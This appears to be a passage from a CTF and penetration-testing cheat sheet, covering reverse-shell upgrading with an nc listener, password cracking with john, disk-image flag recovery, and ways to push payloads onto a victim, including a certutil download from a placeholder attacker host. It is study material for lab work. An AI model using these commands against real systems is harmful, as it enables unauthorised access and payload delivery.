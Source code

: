   ```
  Nov 18 17:02:29 kali crontab[11595]: (www-data) LIST (www-data)
  !/bin/bash
  root@kali:/home/david/bin# 
  ```
* To get the best Shell after taking control of the system
  ```
  www-data@machine:/var/www/html$ python3 -c "import pty;pty.spawn('/bin/bash')"
  <html$ python3 -c "import pty;pty.spawn('/bin/bash')"                        
  www-data@machine:/var/www/html$ ^Z
  [1]+  Stopped                 nc -nlvp 443
  root@kali:# stty raw -echo
  ----------------------Here we need to type `fg` and press Enter `Twice`
  root@kali:# nc -nlvp 443 
  www-data@machine:/var/www/html$ TERM=xterm
  ```
  
## Tools
* Reconnoitre [Links](https://github.com/codingo/Reconnoitre) -- A security tool for multithreaded information gathering and service enumeration whilst building directory structures to store results, along with writing out recommendations for further testing.
   * `reconnoitre -t 10.10.10.37 -o `pwd` --services`
* Total Commander - multi purpose terminal for Hacking. Link : www.ghisler.com
* CTF Exploitation Framework : Github.com/Gallopsled/pwntools `pip install pwntools`
* When using GDB, we can create "~/.gdbinit" file and add this line "set disassembly-flavor intel" to make intel synatx.
* Dirbuster for enumeration web server Attacks.
* [Gobuster](https://github.com/OJ/gobuster) for advanced enumeration
* [Nmap Automator](https://github.com/21y4d/nmapAutomator)
* 7z Password Cracking: Use tool `7z2john`
* SSH Password Cracking: `/usr/share/john/ssh2john.py id_rsa > output.hash`
* [Quipqiup - Substitution Cipher Solver](https://quipqiup.com/)
* [GDB Peda](https://github.com/longld/peda)
* [Search Code - Based on Funcion name and code-snippet](https://searchcode.com/)

***

### Recover Files from Deleted File Systems
* To Extract Flag from the file system - `strings /dev/sdb`
* Flag Recovery with regex `grep -a '[a-z0-9]\{32\}' /dev/sdb`
* `ssh username@remote_address "sudo dcfldd -if=/dev/sdb | gzip -1 ." | dcfldd of=extract.dd.gz` -- Used to get from Remote Hosts
* `gunzip -d extract.dd.gz`
* `binwalk -Me extract.dd`

### Transfer Files from Host to Target Machine
* Use `python -m SimpleHTTPServer` in the host folder.
* Use Apache and put files in `/var/www/html/` folder.
* If Tomcat is Opened, upload the file/payload using the Admin panel.
* If wordpress is running, upload the file as plugin.
* In Windows Victim, use `certutil -urlcache -f http://<HOST_IP>/<FILE_NAME> <OUTPUT_FILE_NAME>`
